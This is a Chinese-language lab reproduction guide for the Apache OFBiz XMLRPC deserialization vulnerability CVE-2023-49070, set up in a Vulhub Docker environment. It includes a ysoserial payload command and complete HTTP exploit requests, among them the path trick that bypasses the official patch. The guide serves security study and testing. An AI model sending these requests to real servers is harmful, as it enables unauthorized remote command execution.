 # Apache OfBiz 反序列化命令执行漏洞 CVE-2023-49070

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在 Apache OFBiz 17.12.03 版本及以前存在一处 XMLRPC 导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz 官方于 18.12.10 中彻底删除 xmlrpc 接口修复该漏洞。

参考链接：

- [https://www.openwall.com/lists/oss-security/2023/12/04/2](https://www.openwall.com/lists/oss-security/2023/12/04/2)

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.09 版本：

```
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain xx.xx.xx.xx not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20240104105720312.png)

## 漏洞复现

漏洞复现方式与 [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496) 相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 CommonsBeanutils1 来生成 Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212094740031.png)

使用 CVE-2020-9496 中的复现方法发送数据包，已经无法成功进入 XMLRPC 的解析流程：

> Host: localhost

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095704854.png)

把 Path 修改成 `/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y` 即可绕过限制：

> Host: localhost

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095750567.png)

进入容器中，可见 `touch /tmp/success` 已成功执行：

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095901069.png)
